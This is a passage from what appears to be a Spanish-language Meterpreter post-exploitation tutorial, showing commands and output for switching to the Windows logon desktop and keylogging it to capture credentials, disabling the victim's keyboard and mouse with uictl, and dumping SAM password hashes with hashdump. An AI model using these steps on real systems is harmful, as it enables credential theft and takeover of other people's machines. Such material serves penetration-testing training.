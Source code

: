 0 WinSta0 Default

0 WinSta0 Disconnect

0 WinSta0 Winlogon

0 SAWinSta SADesktop

Para saber en que desktop se encuentra asociada la sesión meterpreter basta con invocar el método getdesktop:

```
meterpreter > getdesktop

Session 0\WinSta0\Default
```

Cada uno de los desktop tiene sus propios procesos en ejecución y ademas de esto, tienen su propio buffer de teclado y dispositivos de entrada, por lo tanto cuando se realiza el monitoreo de teclas del objetivo, es necesario conocer el desktop actual de ejecución y también es necesario que el proceso del cual depende meterpreter se encuentre en ejecución para dicho desktop, por esta razón es posible que el mismo monitoreo de teclas (utilizando keyscan_*) no funcione de la misma forma para el desktop de inicio de sesión que para el escritorio de un usuario logueado.

TIP: Una vez explicado lo anterior, una practica frecuente que utiliza un atacante cuando logra comprometer un sistema, es establecer después de un periodo corto de tiempo, el desktop asociado con el login de usuario y posteriormente iniciar el escaneo de teclas para dicho desktop, de esta forma es muy fácil capturar las credenciales del usuario que se esta logueando en el sistema.

uictl<Stdapi User Interface Commands>, hashdump<Priv Password database Commands>, timestomp<Priv Timestomp Commands>
el comando uictl permite habilitar/deshabilitar el ratón y el teclado de la maquina destino, de esta forma, se puede controlar las acciones que el usuario realiza.

meterpreter > uictl

Usage: uictl [enable/disable] [keyboard/mouse]

meterpreter > uictl disable keyboard

Disabling keyboard…

meterpreter > uictl enable keyboard

Enabling keyboard…

meterpreter > uictl disable mouse

Disabling mouse…

meterpreter > uictl enable mouse

Enabling mouse…

El comando hashdump permite obtener los usuarios y el hash de los passwords de la maquina remota en formato SAM, de esta forma se puede crakear la clave de un usuario determinado usando herramientas como john the ripper o ophcrack

```
meterpreter > hashdump

Administrator:500:asdfghjkll1404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

ASPNET:1004:f398e05bcb3llllllf92d55aff8ce62c:86ceb0fb2a9e29524943fed3ef434477:::

daniel:1007:f920b27cf8b06ac9alllllllb51404ee:c52abb1e14677d7ea228fcc1171ed7b7:::

Guest:501:aad3b435b51404eeaad3b4lllll404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

HelpAssistant:1000:4d6764bf7636541b9llllll97b8f8a9d:d266eba66369591255d597bc76155cd8:::

Owner:1003:cf6a21dcd4401f45f500944b531lllll5f631567587db2a3d87618c0660be3a3:::

```